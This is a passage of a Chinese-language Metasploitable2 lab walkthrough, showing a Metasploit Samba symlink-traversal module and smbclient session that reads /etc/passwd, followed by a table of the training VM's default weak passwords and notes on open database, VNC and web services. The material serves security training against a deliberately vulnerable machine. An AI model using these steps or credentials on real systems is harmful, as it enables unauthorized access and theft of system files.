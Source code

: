 [*] Connecting to the server…

[*] Trying to mount writeable share &#039;tmp&#039;…

[*] Trying to link &#039;rootfs&#039; to the root filesystem…

[*] Now access the following share to browse the root filesystem:

[*]   \\192.168.99.131\tmp\rootfs\

msf auxiliary(samba_symlink_traversal) > **exit**

root@ubuntu:~# **smbclient //192.168.99.131/tmp**

Anonymous login successful

Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.20-Debian]

smb: \> **cd rootfs**

smb: \rootfs\> **cd etc**

smb: \rootfs\etc\> **more passwd**

getting file \rootfs\etc\passwd of size 1624 as /tmp/smbmore.ufiyQf (317.2 KiloBytes/sec) (average 317.2 KiloBytes/sec)

root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/bin/sh

bin:x:2:2:bin:/bin:/bin/sh

[..]

**弱口令**

除了上面介绍的公开的后门和错误配置以外，Metasploit2 上不管是系统还是数据口账户都有非常严重的弱口令问题。最初的管理员登陆密码和登录名***msfadmin\***相同。通过查看系统的用户名表，我们可以通过使用缺陷来捕获passwd文件，或者通过Samba枚举这些用户，或者通过暴力破解来获得账号密码。系统中至少有一下弱口令。

| **Account Name** | **Password** |
| :--------------- | :----------- |
| msfadmin         | msfadmin     |
| user             | user         |
| postgres         | postgres     |
| sys              | batman       |
| klog             | 123456789    |
| service          | service      |

除了这些系统层面的账户，PostgreSQL 服务可以通过默认的用户名postgres和密码postgres登陆。MySQL 服务也开放，用户名为root同时为空口令。VNC服务提供一个远程桌面接入服务通过使用默认的密码password可以登陆。

**易受攻击的web服务**

Metasploitable2特意预装了易受攻击的web应用。当系统启动以后web服务会自动运行。访问web应用的方法是，打开一浏览器然后输入网址[http://> ,<IP> 就是系统的IP地址。

在这个例子里，系统运行IP地址 192.168.56.101. 打开 http://192.168.56.101/ 来查看web应用的主页。
